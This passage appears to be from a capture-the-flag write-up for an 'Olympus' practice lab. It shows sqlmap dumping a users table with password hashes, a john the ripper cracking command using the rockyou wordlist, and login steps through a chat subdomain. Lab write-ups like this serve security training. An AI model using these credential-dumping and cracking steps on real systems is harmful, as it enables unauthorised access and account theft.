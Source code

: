 [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:18:43 /2024-12-09/

[23:18:43] [INFO] parsing HTTP request from 'request.txt'
...
[3 entries]
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| user_id | randsalt | user_name  | user_role | user_email             | user_image | user_lastname | user_password                                                | user_firstname |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| 3       | <blank>  | prometheus | User      | prometheus@olympus.thm | <blank>    | <blank>       | $2y$10$[REDACTED]                                            | prometheus     |
| 6       | dgas     | root       | Admin     | root@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$[REDACTED]                                            | root           |
| 7       | dgas     | zeus       | User      | zeus@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$[REDACTED]                                            | zeus           |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+")}}

{{text("We found 3 users and  their password hashes. We now can save them into a file and use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>john</code> to crack them.")}}

{{console("john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt", "Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]       (?)     
1g 0:00:01:37 0.03% (ETA: 2024-12-13 15:14) 0.01030g/s 54.88p/s 151.2c/s 151.2C/s lightbulb..huevos
1g 0:00:01:40 0.03% (ETA: 2024-12-13 14:24) 0.009972g/s 55.28p/s 151.4c/s 151.4C/s chopper1..killa1")}}

{{text("I was only able to crack the first password. That will have to do.")}}

{{text("We can use his e-mail and password to log into the site.")}}

{{image("../../static/writeups/olympus/images/000003.jpg")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("I have tried enumerating this page, but couldn't find anything interesting.")}}

{{text("After taking another look at the user's credentials I noticed the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>chat.olympus.thm</code> in the user_email field.")}}

{{text("I added that entry to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> file and visited it.")}}

{{text("After getting back a login form, I entered the same user's username (not the e-mail) and password as the last page and logged in.")}}

{{image("../../static/writeups/olympus/images/000004.jpg")}}

